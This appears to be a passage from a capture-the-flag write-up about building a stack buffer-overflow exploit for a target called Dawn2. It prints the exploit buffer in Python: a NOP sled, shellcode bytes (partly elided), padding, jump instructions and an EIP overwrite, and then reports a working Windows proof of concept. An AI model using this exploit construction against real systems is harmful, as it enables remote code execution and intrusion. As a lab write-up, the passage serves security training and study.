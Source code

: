 ```
        NOPS = b"\x90" * 20
        SHELL =  b""
        SHELL += b"\xd9\xec\xbf\xc5\x91\xf7\xf7\xd9\x74\x24\xf4\x5e"
...
        SHELL += b"\x28\x18\xc8"
        CRASH2 = b"\x41" * (783 - (len(SHELL) + len(NOPS))) #Python does not do BEDMAS Hence the () overload.
        JMP = b"\xE9\xED\xFC\xFF\xFF"
        SRTJMP = b"\xEB\xF9\x90\x90"
        EIP = b"\xBA\x59\x58\x34"
        FILLER =b"\x43" * 128
        TERMINATE = b"\x00"
        buffer = NOPS + SHELL + CRASH2 + JMP + SRTJMP + EIP + FILLER + TERMINATE
        print (len(buffer)) # Debugging Size
```

The "guts" of the exploit should look something like that.

And...

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-windowspoc.gif)

Nice! we have a working proof of concept. 

and just for a bit more fun...
